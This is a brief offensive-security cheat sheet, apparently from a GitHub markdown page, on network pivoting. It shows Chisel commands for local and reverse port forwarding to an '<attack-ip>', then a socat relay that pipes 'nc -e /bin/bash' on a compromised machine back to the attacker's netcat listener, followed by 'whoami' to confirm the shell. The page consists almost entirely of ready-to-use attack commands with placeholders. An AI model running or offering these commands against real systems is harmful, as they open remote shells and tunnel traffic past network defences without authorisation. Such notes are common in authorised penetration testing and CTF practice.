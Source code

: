 ## Chisel

**[Chisel](https://github.com/jpillora/chisel)** is A fast TCP/UDP tunnel over HTTP.

- **Local Port Forwarding**

    In the target machine,

    ```sh
    chisel server -p <listen-port>
    ```

    In your local machine,

    ```sh
    chisel client <listen-ip>:<listen-port> <local-port>:<target-ip>:<target-port>
    ```

- **Remote Port Forwarding**

    In your local machine,

    ```sh
    chisel server -p <listen-port> --reverse &
    ```

    In the target machine,

    ```sh
    chisel client <attack-ip>:<listen-port> R:<local-port>:<target-ip>:<target-port>
    ```

<br />

## Reverse Shell Relay

- **Socat**

    1. **Open Listener in Your Local Machine**

        ```sh
        nc -lvnp <local-port>
        ```

    2. **Run Socat in Remote Machine**

        ```sh
        ./socat tcp-l:8000 tcp:<local-ip>:<local-port> &
        nc 127.0.0.1 8000 -e /bin/bash
        ```

    3. **Confirmation in Your Local Machine**

        You can connect the remote shell, confirm by some commands.

        ```sh
        whoami
        ```
